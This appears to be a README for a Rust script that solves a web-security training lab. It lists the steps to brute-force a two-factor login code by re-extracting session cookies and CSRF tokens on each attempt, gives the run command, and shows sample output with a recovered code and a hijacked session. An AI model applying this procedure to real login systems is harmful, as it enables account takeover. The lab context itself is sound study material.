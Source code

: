 # Hack Steps

1. GET /login page and extract the session from cookie header and csrf token from the body
2. POST /login with valid credentials, extracted session and the csrf token
3. Obtain the new session
4. GET /login2 with the new session
5. Extract csrf token from the body of /login2
6. POST the mfa-code with the new session and the new extracted csrf token
7. Repeat the process with all possbile numbers 

# Run Script

1. change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Brute forcing the mfa-code of carlos..
[*] Elapsed: 30 minutes || Failed: 3 || (6034/10000) 1276 => Incorrect
✅ Correct code: 0345
✅ New session: HY4DM0kZP9d8iT1xyYflQ24blyH6y8Qx
Use this session in your browser to login as carlos

✅ Finished in: 30 minutes

[!] Failed codes count: 3 
[!] Failed codes: ["8136", "0137", "2134"]
```

